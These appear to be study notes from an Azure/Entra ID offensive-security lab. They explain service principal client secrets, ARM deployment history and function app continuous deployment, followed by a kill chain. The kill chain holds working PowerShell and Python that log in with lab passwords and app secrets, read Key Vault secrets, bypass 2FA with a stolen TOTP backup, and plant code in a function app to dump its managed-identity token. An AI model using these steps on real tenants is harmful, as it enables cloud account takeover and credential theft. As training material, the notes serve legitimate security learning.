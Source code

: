 # Enterprise Applications

* Any application registered in Entra ID has two representations
  * Application (in PowerShell terminology) object that is present only in the tenant where app is registered. This is visible under App Registrations in the Azure portal.
  * Service Principal (in PowerShell terminology) that is present in every directory where application is used (in case of a multi-tenant application). This is visible under Enterprise Applications in the Azure portal. Azure RBAC roles use service principal.
* "An application has one application object in its home directory that is referenced by one or more service principals in each of the directories where it operates (including the application's home directory)"
* Service Principals (Enterprise Applications) are instances of the Application.

**Client Secrets**

* An application object supports multiple client secrets (application passwords).
* A user that is owner or have application administrator role over an application can add an application password.
* An application password can be used to login to a tenant as a service principal. MFA is usually not applied on a service principal!
* If we can compromise a user that has enough permissions to create a client secret/application password for an application object, we can
  * Login as the service principal for that application
  * Bypass MFA
  * Access all the resources where roles are assigned to the service principal
  * Add credentials to an enterprise applications for persistence after compromising a tenant

#### Azure Resource Manager (ARM) Templates



* The 'infrastructure as code' service for Azure to deploy resources using code.
* ARM templates are JSON files containing deployment configuration forAzure resources.
* ARM templates also support a language called Bicep.
* Each resource group maintains a deployment history for up to 800 deployments. The history is automatically deleted when the count exceeds 775 deployments.
* Deployment history is a rich source of information!
* Any user with permissions `Microsoft.Resources/deployments/read` and `Microsoft.Resources/subscriptions/resourceGroups/read` can read the deployment history.
* Useful information can be extracted from deployment history.
* It gives us the ability to have information about the resources that are not presently deployed but may be deployed again in future!
* A deployment parameter that contains sensitive information like passwords should have `SecureString` type. In case of a poorly written deployment template - that uses 'String' for such a parameter - we can get password in clear-text!

**Checking the managed Identity**

```powershell
$passwd = ConvertTo-SecureString "V3ryH4rdt0Cr4ckN0OneCanGu3ssP@ssw0rd" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@defcorphq.onmicrosoft.com", $passwd)
Connect-AzAccount -Credential $creds

$Token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token
Connect-MgGraph -AccessToken ($Token | ConvertTo-SecureString -AsPlainText -Force)
Get-MgServicePrincipal -All | ?{$_.AppId -eq "62e44426-5c46-4e3c-8a89-f461d5d586f2"} | fl
```

**Using previously added application secret**

```powershell
$password = ConvertTo-SecureString '3Xv8Q~g-JzFY3PxHgo~mG-VWyw4nX6XqR-ACZadO' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('f072c4a6-b440-40de-983f-a7f3bd317d8f', $password)
Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant 2d50cb29-5f7b-48a4-87ce-fe75a941adb6

Get-AzResource
Get-AzKeyVaultSecret -VaultName credvault-fileapp
Get-AzKeyVaultSecret -VaultName credvault-fileapp -Name MobileUsersBackup -AsPlainText

# $username = "thomasebarlow@defcorpit.onmicrosoft.com";$password="DeployM3ntUserInTh3Tan3nt!!"
```

#### Function App - Continuous Deployment



* Functions Apps (Azure Functions) support continuous deployment.
* In case continuous deployment is used, a source code update triggers a deployment to Azure.
* Following source code locations are supported
  * Azure Repos
  * GitHub
  * Bitbucket
* Deployment slots are supported so that deployments are first done in slots like staging (to avoid deploying directly in the default production slot)
* A misconfigured function app that deploys directly in production can be abused.
* In this case, if the source of truth/code location is compromised, it will be possible to assume the identity of the function app.
* For example, if GitHub is used as the provider, compromise of a GitHub account that can commit code will lead to compromise of the function app.

**Kill Chain**

1. Recall that we extract app.zip from one of the storage accounts. One of the files contained GitHub credentials for two users – `jenniferazad` and `laurenazad`. However, both the users have two factor authentication enabled.
2. Using authenticator.txt that contains backup of a GitHub's Time-based OTP (TOTP) app for `laurenazad`! Import it into Chrome's Google Authenticator extension.
3. Go to the SimpleApps repository - [https://github.com/DefCorp/SimpleApps](https://github.com/DefCorp/SimpleApps) The README of the repository tells us that – ' This repo is a part of the CI/CD pipeline used for testing various function app features.' and it contains URL of a function app - [https://simpleapps.azurewebsites.net/api/Student43](https://simpleapps.azurewebsites.net/api/Student43)
4. Check [**iniy.py**](http://iniy.py/) in the directory for your student ID - [https://github.com/DefCorp/SimpleApps/blob/main/Student43/\_\_init\_\_.py](https://github.com/DefCorp/SimpleApps/blob/main/Student43/__init__.py)
5. Use your student ID in the URL in the README and browse to it using Chrome: [https://simpleapps.azurewebsites.net/api/student43](https://simpleapps.azurewebsites.net/api/student43)
6. Edit the [**init.py**](http://init.py/) in your student**x** directory in the repo and paste the following code that gets an access token if there is a managed identity used by the function app. Recall that this is the code that we got from app.zip from the defcorpbackup storage account:

```python
import logging, os
import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
	logging.info('Python HTTP trigger function processed a request.')
	IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
	IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
	cmd = 'curl "%s?resource=https://management.azure.com&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
	val = os.popen(cmd).read()
	return func.HttpResponse(val, status_code=200)
```

1. Commit the changes! Now wait for a couple of minutes and deploy the changes to the function app by browsing to [https://simpleapps.azurewebsites.net/api/student43\*\*.\*\*](https://simpleapps.azurewebsites.net/api/student43**.**) You will get the access token of the managed identity:

```powershell
$accesstoken = 'eyJ0…'
Connect-AzAccount -AccessToken $AccessToken -AccountId 95f40eea-6653-4e11-b545-d9c2f5f90a29
Get-AzResourceGroup
Get-AzResourceGroupDeployment -ResourceGroupName SAP
Save-AzResourceGroupDeploymentTemplate -ResourceGroupName SAP -DeploymentName stevencking_defcorphq.onmicrosoft.com.sapsrv

(cat C:\\AzAD\\Tools\\stevencking_defcorphq.onmicrosoft.com.sapsrv.json |ConvertFrom-Json |select -ExpandProperty Resources).resources.Properties.Settings.CommandToExecute
Disconnect-AzAccount
```

```powershell
$password = ConvertTo-SecureString "St0rage@ccountsCanReadSt3v3n!!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('stevencking@defcorphq.onmicrosoft.com', $Password)
Connect-AzAccount -Credential $creds

Get-AzResource
Get-AzStorageContainer -Context (New-AzStorageContext -StorageAccountName defcorpcodebackup)
```

```powershell
mkdir C:\\Users\\studentuser43\\.ssh
copy id_rsa C:\\Users\\studentuser43\\.ssh\\ 
cd C:\\AzAD\\Tools

ssh -T git@github.com
git clone git@github.com:DefCorp/CreateUsers.git

cd CreateUsers
mkdir student43
copy C:\\AzAD\\Tools\\CreateUsers\\Example\\user.json C:\\AzAD\\Tools\\CreateUsers\\student43\\user.json

git add .
git config --global user.email "81172144+jenniferazad@users.noreply.github.com"
git config --global user.name "jenniferazad"
git commit -m "Update"
git push
```

```powershell
{
 "accountEnabled": true,
 "displayName": "student2802",
 "mailNickname": "student2802",
 "userPrincipalName": "student2802@defcorphq.onmicrosoft.com",
 "passwordProfile" : {
   "forceChangePasswordNextSignIn": false,
   "password": "Stud2802Password@123"
 }
}
```

> Browse [https://createusersapp.azurewebsites.net/api/CreateUsersApp?id=43](https://createusersapp.azurewebsites.net/api/CreateUsersApp?id=43)
